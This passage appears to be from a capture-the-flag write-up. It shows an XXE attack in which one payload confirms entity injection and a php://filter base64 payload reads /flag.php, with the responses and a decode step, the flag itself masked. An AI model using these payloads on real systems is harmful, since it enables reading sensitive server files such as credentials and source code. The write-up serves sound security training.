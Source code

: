 #### XXE Test

Payload to confirm injection:

```xml
<!DOCTYPE email [
  <!ENTITY hello "Test hello">
]>
<root>
    <name>&hello;</name>
    <details>test hello</details>
    <date>2003-03-03</date>
</root>
```

Response:

```
Event 'Test hello' has been created.
```

This confirmed the **XXE vulnerability**.

#### Reading Sensitive Files

The task description specified that the flag was stored in `/flag.php` file. To safely retrieve its contents, a **base64-encoded XXE payload** was used to avoid unsafe characters or binary data issues:

```xml
<!DOCTYPE email [
  <!ENTITY hello SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
<root>
    <name>&hello;</name>
    <details>test hello</details>
    <date>2003-03-03</date>
</root>
```

Response contained Base64-encoded file contents:

```
Event 'PD9waHAgJGZsYWcgPS************************************sgPz4K' has been created.
```

Decoding:

```bash
[★]$ echo 'PD9waHAgJGZsYWcgPS************************************sgPz4K' | base64 -d
<?php $flag = *************************; ?>
```

Flag successfully retrieved.


## Conclusion

